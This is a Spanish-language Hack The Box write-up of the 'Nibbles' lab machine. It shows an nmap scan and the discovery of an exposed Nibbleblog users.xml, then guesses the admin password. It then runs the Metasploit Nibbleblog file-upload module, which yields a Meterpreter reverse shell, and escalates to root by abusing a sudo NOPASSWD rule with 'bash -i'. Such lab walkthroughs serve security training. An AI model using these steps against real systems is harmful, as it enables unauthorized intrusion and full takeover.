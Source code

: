 ```yaml
---
title: 'HTB Nibbles writeup'
date: 2025-03-11
permalink: /posts/2025/03/HTB-Nibbles-Writeup/
tags:
  - writeup
  - htb
  - metasploit
---
```

# Reconocimiento Inicial

Comencé con un escaneo básico usando Nmap para identificar puertos abiertos y servicios en la máquina objetivo (10.10.10.75). Ejecuté el siguiente comando:

nmap -p- -T4 -A -v 10.10.10.75


Output relevante:

PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2  
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))  


Solo había dos servicios activos: SSH y un servidor web. Me enfoqué en el puerto 80.

# Enumeración Web

Al acceder a http://10.10.10.75, la página mostraba un mensaje simple: "Hello World!". Inspeccioné el código fuente y encontré un comentario curioso:

< !-- /nibbleblog/ -->


Usé Dirbuster para descubrir directorios y archivos bajo /nibbleblog/. Configuré el diccionario directory-list-2.3-medium.txt y encontré:

http://10.10.10.75/nibbleblog/admin.php


Al acceder a esta URL, me topé con un panel de login. Probé credenciales comunes (admin:admin, admin:password), pero sin éxito. Además, noté que después de varios intentos fallidos, el sistema bloqueaba temporalmente las peticiones.

# Encontrando Credenciales


Recordé que muchos CMS almacenan usuarios en archivos XML. Probé acceder a:

http://10.10.10.75/nibbleblog/content/private/users.xml

Output:

<\user username="admin">
  <\ id type="integer">1 <\/id>
  <\ session_fail_count type="integer">0 <\/session_fail_count>
  <\ session_date type="integer">1527728762 <\/session_date>
<\/user>


Confirmé que el usuario era admin. Para la contraseña, probé combinaciones simples relacionadas con el nombre de la máquina: nibbles, Nibbles123, etc. La que funcionó fue admin:nibbles.
Explotación con Metasploit


Sabía que Nibbleblog 4.0.3 tenía una vulnerabilidad de subida de archivos. Usé el módulo de Metasploit:
bash

msfconsole  
use exploit/multi/http/nibbleblog_file_upload  
set RHOSTS 10.10.10.75  
set USERNAME admin  
set PASSWORD nibbles  
set LHOST 10.10.14.10  # Mi IP en HTB  
exploit  


Resultado:

Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.75:41846)  
meterpreter > shell  

Obtuve una shell como el usuario nibbler.

# Escalada de Privilegios

Primero revisé permisos de sudo:

sudo -l  

Output:

User nibbler may run the following commands on Nibbles:  
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh  


El script monitor.sh no existía, así que lo creé:

echo "bash -i" > monitor.sh  
chmod +x monitor.sh  


Luego, lo ejecuté con sudo:

sudo /home/nibbler/personal/stuff/monitor.sh  


Resultado:

root@Nibbles:/home/nibbler/personal/stuff# id  
uid=0(root) gid=0(root) groups=0(root)  


¡Conseguí acceso root!